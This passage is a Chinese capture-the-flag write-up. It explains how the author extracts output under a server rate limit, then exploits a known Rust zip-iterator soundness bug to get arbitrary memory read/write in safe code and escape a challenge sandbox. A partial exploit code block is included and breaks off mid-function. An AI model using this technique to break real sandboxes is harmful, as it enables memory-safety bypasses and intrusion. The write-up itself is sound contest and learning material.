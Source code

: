 注意最后一个Inst的输出就是我们想要的。事实上最后一个字符似乎是有问题的，可能又有一堆virtual table偏移之类的，我们就不管了，只拿7个字符，少拿一点多拿几次。

我们写个脚本一次取7个字符，注意30秒3次的服务器限制，就可以拿到所有我们需要的base64结果：

![image-20221126170858139](./images/image-20221126170858139.png)

再拿出来用之前说的特殊解码规则解一下就好了。![image-20221126170932542](./images/image-20221126170932542.png)



## 编原译理习题课 · 实验班

题面好生草233333

Rust基本只能找CVE，这个版本这么低，肯定是干这个用的，我们找到这个zip相关的问题：https://github.com/rust-lang/rust/issues/82282

他给的例子，直接交上去就可以拿到flag1了。

看了看原理非常有意思，在快速版zip（任意寻址迭代器）中为了模拟慢速版zip，增加的额外代码把自己的状态搞坏了，然后这个错误的状态又可以再用另一个zip拿出来，变成一个任一地址读写。

那我们有了这个就好办了。题目的代码里有沙箱，我们不能再打开新文件了，只能想办法拿到主函数里打开的那个File指针。我们实验计算一下偏移，然后用这个偏移获得那个File的可变引用即可。

```rust
#![forbid(unsafe_code)]

fn overflowed_zip(arr: &[i32]) -> impl Iterator<Item = (i32, &())> {
    static UNIT_EMPTY_ARR: [(); 0] = [];

    let mapped = arr.into_iter().map(|i| *i);
    let mut zipped = mapped.zip(UNIT_EMPTY_ARR.iter());
    zipped.next();
    zipped
}

use std::fs::File;
use std::io::Read;

pub fn run() {
    let mut EMPTY_FILE_ARR: [File; 0] = [];
    let EMPTY_ARR: [(); 0] = [];
    let some_arr = [1, 2, 3];
    let mut zip_file = some_arr.iter().map(|i| *i)
        .zip(EMPTY_FILE_ARR.iter_mut());
    zip_file.next();
    dbg!(zip_file.size_hint());

    let mut zip_file2 = zip_file.zip(overflowed_zip(&some_arr));
    dbg!(zip_file2.size_hint());

    println!("sizeof(File): {}", std::mem::size_of::<File>());

```